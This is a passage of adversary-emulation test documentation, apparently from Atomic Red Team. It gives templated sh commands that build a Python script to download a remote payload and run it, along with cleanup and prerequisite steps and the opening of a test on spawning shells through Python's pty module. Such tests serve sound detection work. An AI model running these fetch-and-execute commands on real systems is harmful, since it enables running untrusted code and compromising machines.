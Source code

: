 #### Attack Commands: Run with `sh`!

```sh
which_python=$(which python || which python3 || which python3.9 || which python2)
echo 'import requests' > #{python_script_name}
echo 'import os' >> #{python_script_name}
echo 'url = "#{script_url}"' >> #{python_script_name}
echo 'malicious_command = "#{executor} #{payload_file_name} #{script_args}"' >> #{python_script_name}
echo 'session = requests.session()' >> #{python_script_name}
echo 'source = session.get(url).content' >> #{python_script_name}
echo 'fd = open("#{payload_file_name}", "wb+")' >> #{python_script_name}
echo 'fd.write(source)' >> #{python_script_name}
echo 'fd.close()' >> #{python_script_name}
echo 'os.system(malicious_command)' >> #{python_script_name}
$which_python -c 'import py_compile; py_compile.compile("#{python_script_name}", "#{python_binary_name}")'
$which_python #{python_binary_name}
```

#### Cleanup Commands:

```sh
rm #{python_binary_name} #{python_script_name} #{payload_file_name}
```

#### Dependencies: Run with `sh`!

##### Description: Requires Python

##### Check Prereq Commands:

```sh
which_python=$(which python || which python3 || which python3.9 || which python2); $which_python -V
$which_python -c 'import requests' 2>/dev/null; echo $?
```

##### Get Prereq Commands:

```sh
pip install requests
```

<br/>
<br/>

## Atomic Test #4 - Python pty module and spawn function used to spawn sh or bash

Uses the Python spawn function to spawn a sh shell followed by a bash shell. Per Volexity, this technique was observed in exploitation of Atlassian Confluence [CVE-2022-26134]. Reference: https://www.volexity.com/blog/2022/06/02/zero-day-exploitation-of-atlassian-confluence

**Supported Platforms:** Linux

**auto_generated_guid:** 161d694c-b543-4434-85c3-c3a433e33792
